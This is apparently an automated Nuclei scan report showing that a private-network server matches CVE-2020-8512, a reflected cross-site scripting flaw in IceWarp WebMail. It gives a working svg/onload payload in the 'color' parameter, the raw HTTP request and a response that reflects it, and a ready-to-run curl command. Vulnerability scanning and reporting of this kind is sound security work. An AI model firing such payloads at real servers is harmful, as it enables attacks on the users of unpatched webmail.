 ### IceWarp WebMail XSS (CVE-2020-8512) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2020-8512**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/webmail/?color=%22%3E%3Csvg/onload=alert(document.domain)%3E%22

**Timestamp**: Wed Jun 8 20:22:20 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | IceWarp WebMail XSS |
| Authors | pdteam, dwisiswant0 |
| Tags | cve, cve2020, xss, icewarp |
| Severity | medium |
| Description | In IceWarp Webmail Server through 11.4.4.1, there is XSS in the /webmail/ color parameter. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2020-8512](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2020-8512) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /webmail/?color=%22%3E%3Csvg/onload=alert(document.domain)%3E%22 HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 195
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/webmail/?color="><svg/onload=alert(document.domain)>"</B> was not found.</BODY></HTML>
```

References: 
- https://www.exploit-db.com/exploits/47988
- https://twitter.com/sagaryadav8742/status/1275170967527006208
- https://cxsecurity.com/issue/wlb-2020010205
- https://packetstormsecurity.com/files/156103/icewarp-webmail-11.4.4.1-cross-site-scripting.html

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36' 'http://192.168.198.179:8080/webmail/?color=%22%3E%3Csvg/onload=alert(document.domain)%3E%22'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)